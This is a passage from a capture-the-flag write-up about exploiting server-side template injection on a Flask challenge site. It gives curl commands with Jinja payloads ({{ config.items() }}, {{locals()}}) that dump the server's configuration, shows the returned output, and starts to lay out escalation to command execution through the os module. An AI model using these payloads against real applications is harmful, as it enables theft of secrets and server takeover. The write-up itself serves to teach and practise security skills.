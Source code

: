 Indeed, this website is vulnerable to **SSTI** vulnerability. So to get the flag, let's try to exploit it a bit.

First, let's try to see what items is this server hiding :

```
curl 'http://render.web-server.challs.ctf.shellmates.club/' -X POST --data "name={{ config.items() }}"
```

```html
<!DOCTYPE html>
<html>
...
        <br>
        <p id="nom" style="     @import url('https://fonts.googleapis.com/css2?family=Montserrat:wght@200;300&family=Roboto+Mono:wght@300&display=swap');
                                color:green;
                                                        font-size: 45px;
                                                        font-weight: bold;
                                                        font-family: 'Roboto Mono', monospace;">
      Welcome Mentee : dict_items([(&amp;#39;ENV&amp;#39;, &amp;#39;production&amp;#39;), (&amp;#39;DEBUG&amp;#39;, False), (&amp;#39;TESTING&amp;#39;, False), (&amp;#39;PROPAGATE_EXCEPTIONS&amp;#39;, None),
      ...
      (&amp;#39;WNOHANG&amp;#39;, 1), (&amp;#39;WNOWAIT&amp;#39;, 16777216), (&amp;#39;WSTOPPED&amp;#39;, 2), (&amp;#39;WSTOPSIG&amp;#39;, &amp;lt;built-in function WSTOPSIG&amp;gt;), (&amp;#39;WTERMSIG&amp;#39;, &amp;lt;built-in function WTERMSIG&amp;gt;), (&amp;#39;WUNTRACED&amp;#39;, 2), (&amp;#39;W_OK&amp;#39;, 2), (&amp;#39;X_OK&amp;#39;, 1)])

        </p>
</body>

</html>
```

> Our second interesting discovery comes from introspecting the config object. The config object is a Flask template global that represents “The current configuration object (flask.config).” It is a dictionary-like object that contains all of the configuration values for the application. In most cases, this includes sensitive values such as database connection strings, credentials to third party services, the SECRET_KEY, etc. Viewing these configuration items is as easy as injecting a payload of {{ config.items() }}.


See current local variables :
```
curl 'http://render.web-server.challs.ctf.shellmates.club/' -X POST --data "name={{locals()}}"   
```

After finding nothing in the global config as well as local variables, let's try other exploits.

Mainly when we find an **SSTI**, we always lookup to get command execution. This can be realized with the `os` package. IT can be either imported, or can be exploited by another package like `sys` ...

1. So the first solution is to try and see available packages and check for a module that uses 'os'. We can check for packages like following :
